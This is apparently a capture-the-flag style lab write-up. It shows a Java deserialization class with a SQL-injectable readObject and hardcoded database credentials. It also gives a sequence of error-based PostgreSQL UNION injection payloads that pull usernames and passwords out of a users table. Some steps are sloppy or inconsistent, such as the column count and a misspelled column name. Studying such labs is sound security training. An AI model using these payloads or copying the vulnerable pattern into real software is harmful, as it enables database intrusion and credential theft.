# know how deserialization Lab7: Developing a custom gadget chain for Java deserialization expert

```bash
## know how deserialization java postgreesql sql injection
## know how java deserialization postgreesql sql injection
## know how sql injection postrgreesql deserialization java
## know how sql injection java postgree deserialization
```

1. Explore the content. Search and active... we found /backup



2. explore backup 



AccessTokenUser.java 

```java

package data.session.token;

import java.io.Serializable;

public class AccessTokenUser implements Serializable
{
    private final String username;
    private final String accessToken;

    public AccessTokenUser(String username, String accessToken)
    {
        this.username = username;
        this.accessToken = accessToken;
    }

    public String getUsername()
    {
        return username;
    }

    public String getAccessToken()
    {
        return accessToken;
    }
}

```
ProductTemplate.java

```java

package data.productcatalog;

import common.db.JdbcConnectionBuilder;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.sql.Connection;
import java.sql.ResultSet;
import java.sql.SQLException;
import java.sql.Statement;

public class ProductTemplate implements Serializable
{
    static final long serialVersionUID = 1L;

    private final String id;
    private transient Product product;

    public ProductTemplate(String id)
    {
        this.id = id;
    }

    private void readObject(ObjectInputStream inputStream) throws IOException, ClassNotFoundException
    {
        inputStream.defaultReadObject();

        JdbcConnectionBuilder connectionBuilder = JdbcConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "password"
        ).withAutoCommit();
        try
        {
            Connection connect = connectionBuilder.connect(30);
            String sql = String.format("SELECT * FROM products WHERE id = '%s' LIMIT 1", id);
            Statement statement = connect.createStatement();
            ResultSet resultSet = statement.executeQuery(sql);
            if (!resultSet.next())
            {
                return;
            }
            product = Product.from(resultSet);
        }
        catch (SQLException e)
        {
            throw new IOException(e);
        }
    }

    public String getId()
    {
        return id;
    }

    public Product getProduct()
    {
        return product;
    }
}
```

3. Ok we change the token for view any errors. we know that the token its a java and we need our script main.java for change the token and view errors. 

We need use our [script](/docs/5.0-know-how-github-cibersecurity/explotation-burpsuite-exploits/Java/Serialization/Main.java) 



futher, we need download to our pc ProductTemplate.java for use in serialization. We can remove any contet and just leave the constructor id , and get the product.

you need try with diferent numbers of columns. you need start with
```bash
' UNION SELECT NULL --
## remember that you need through the main.java script and deserialize the token


```



we need get number of columns.



```bash
' UNION SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL --
```
Ok, we have 8 columns



Now we can use version(), we need change in any positions of the columns.




```bash
' UNION SELECT NULL, NULL, NULL, NULL, version(), NULL, NULL, NULL --
```

We need that the version will be a integer

```bash
' UNION SELECT NULL, NULL, NULL, NULL, version(), NULL, NULL, NULL --
```

When we start the sql injectio, we need become with ('-- -') and then follow normal steps for sql injection.

```bash
' UNION SELECT NULL, NULL, NULL, NULL, CAST(version() as numeric), NULL, NULL, NULL --
```


Ok, run, then we realice all steps for sql injection on java oracle. Remember using deserialize token in main.java script

```bash

1. ' UNION SELECT NULL,NULL, NULL, CAST(table_name as numeric), NULL, NULL, NULL, NULL FROM information_schema.tables --

2. ' UNION SELECT NULL,NULL, NULL, CAST(table_name as numeric), CAST(column_name as numeric), NULL, NULL, NULL FROM information_schema.tables --

3. ' UNION SELECT NULL,NULL, NULL, NULL, CAST(column_name as numeric), NULL, NULL, NULL FROM information_schema.columns WHERE table_name='users' --

4. ' UNION SELECT NULL,NULL, NULL, NULL, CAST(username as numeric), NULL, NULL, NULL FROM users --

5. ' UNION SELECT NULL,NULL, NULL, NULL, CAST(username as numeric), CAST(passsword as numeric), NULL, NULL FROM users --

6. ' UNION SELECT NULL,NULL, NULL, NULL, CAST(password as numeric), NULL, NULL, NULL FROM users --

```
5. trying to get password administrator We view the password in the error 



We view the password in the error 





By carefully studying the source code, you can discover longer gadget chains that potentially allow you to construct high-severity attacks, often including remote code execution.